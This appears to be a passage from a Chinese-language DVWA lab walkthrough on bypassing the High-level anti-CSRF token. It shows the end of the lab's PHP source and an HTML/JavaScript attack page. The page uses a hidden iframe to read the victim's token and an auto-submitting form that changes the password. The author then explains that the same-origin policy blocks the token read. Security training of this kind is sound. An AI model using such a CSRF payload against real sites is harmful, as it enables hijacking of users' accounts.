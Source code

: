 ```php
	else {
		// Issue with passwords matching
		$html .= "<pre>Passwords did not match.</pre>";
	}

	((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

可以看到，High 级别的代码加入了 Anti-CSRF token 机制，用户每次访问改密页面时，服务器会返回一个随机的 token，向服务器发起请求时，需要提交 token 参数，而服务器在收到请求时，会优先检查 token，只有 token 正确，才会处理客户端的请求。

**漏洞利用**

要绕过 High 级别的反 CSRF 机制，关键是要获取 token，要利用受害者的 cookie 去修改密码的页面获取关键的 token。

试着去构造一个攻击页面，将其放置在攻击者的服务器，引诱受害者访问，从而完成 CSRF 攻击，下面是代码。

```html
<script type="text/javascript">
	function attack()
	{
	document.getElementsByName('user_token')[0].value=document.getElementById("hack").contentWindow.document.getElementsByName('user_token')[0].value;
	document.getElementById("transfer").submit();
	}
</script>

<iframe src="http://<IP地址!!!>/dvwa/vulnerabilities/csrf" id="hack" border="0" style="display:none;">
</iframe>

<body onload="attack()">
<form method="GET" id="transfer" action="http://<IP地址!!!>/dvwa/vulnerabilities/csrf">
	<input type="hidden" name="password_new" value="password">
	<input type="hidden" name="password_conf" value="password">
	<input type="hidden" name="user_token" value="">
	<input type="hidden" name="Change" value="Change">
</form>

</body>
```

攻击思路是当受害者点击进入这个页面，脚本会通过一个看不见框架偷偷访问修改密码的页面，获取页面中的 token，并向服务器发送改密请求，以完成 CSRF 攻击。

然而理想与现实的差距是巨大的，这里牵扯到了跨域问题，而现在的浏览器是不允许跨域请求的。这里简单解释下跨域，我们的框架 iframe 访问的地址是 http://<dvwa靶机IP>/dvwa/vulnerabilities/csrf ，位于服务器 A 上，而我们的攻击页面位于黑客服务器 B 上，两者的域名不同，域名 B 下的所有页面都不允许主动获取域名 A 下的页面内容，除非域名 A 下的页面主动发送信息给域名 B 的页面，所以我们的攻击脚本是不可能取到改密界面中的 user_token。
